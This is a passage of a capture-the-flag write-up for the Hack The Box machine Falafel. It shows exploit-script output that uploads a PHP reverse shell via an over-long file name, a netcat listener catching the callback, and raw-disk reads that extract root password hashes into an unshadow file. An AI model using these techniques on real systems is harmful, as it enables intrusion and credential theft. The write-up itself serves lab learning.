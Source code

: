     root@kali# ./get_falafel_shell.py -n 9000
    [*] Starting webserver thread from /tmp on port 8082
    [*] Getting logon.php with phpsession cookie
    [*] Logging in with admin / 240610708
    [*] Uploading reverse shell php
    10.10.10.73 - - [20/Jun/2018 09:30:34] "GET /BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php.png HTTP/1.1" 200 -
    [*] Activating shell. Expect callback on 10.10.14.159:9000
    [*] Cleaning up and exiting
    
    
    
    root@kali# nc -lnvp 9000
    listening on [any] 9000 ...
    connect to [10.10.14.159] from (UNKNOWN) [10.10.10.73] 60076
    /bin/sh: 0: can't access tty; job control turned off
    $
    

### Root shell - fail

In main disk, there’s what looks like the root line of an `/etc/shadow` file:

    
    
    yossi@falafel:/dev/shm/.d$ dd if=/dev/sda1 bs=1024 | strings -a | grep root > strings
    7339008+0 records in
    7339008+0 records out
    7515144192 bytes (7.5 GB, 7.0 GiB) copied, 394.058 s, 19.1 MB/s
    
    yossi@falafel:/dev/shm/.d$ blockdev --getsize /dev/sda1
    14678016
    
    yossi@falafel:/dev/shm/.d$ dd if=/dev/sda1 bs=1024 | strings -a | grep root > strings
    7339008+0 records in
    7339008+0 records out
    7515144192 bytes (7.5 GB, 7.0 GiB) copied, 394.058 s, 19.1 MB/s
    
    yossi@falafel:/dev/shm/.d$ cat strings | grep "^root" | grep ":::" | sort | uniq
    root:*:17379:0:99999:7:::
    root:!:17497:0:99999:7:::
    root:$6$1piR.vyE$147.7jQX3pd0twWI0S43cWqoldOrwOeezcMAwWG5zd5PD4SdvwfSq3B/bFVUeN5JGg9A4bQ7vi3xzmcCZOWlg.:17497:0:99999:7:::
    root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:17498:0:99999:7:::
    
    
    yossi@falafel:/dev/shm/.d$ cat /etc/passwd | grep root
    root:x:0:0:root:/root:/bin/bash
    
    root@kali# cat unshadow
    root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:0:0:root:/root:/bin/bash
    root:$6$1piR.vyE$147.7jQX3pd0twWI0S43cWqoldOrwOeezcMAwWG5zd5PD4SdvwfSq3B/bFVUeN5JGg9A4bQ7vi3xzmcCZOWlg.:0:0:root:/root:/bin/bash
    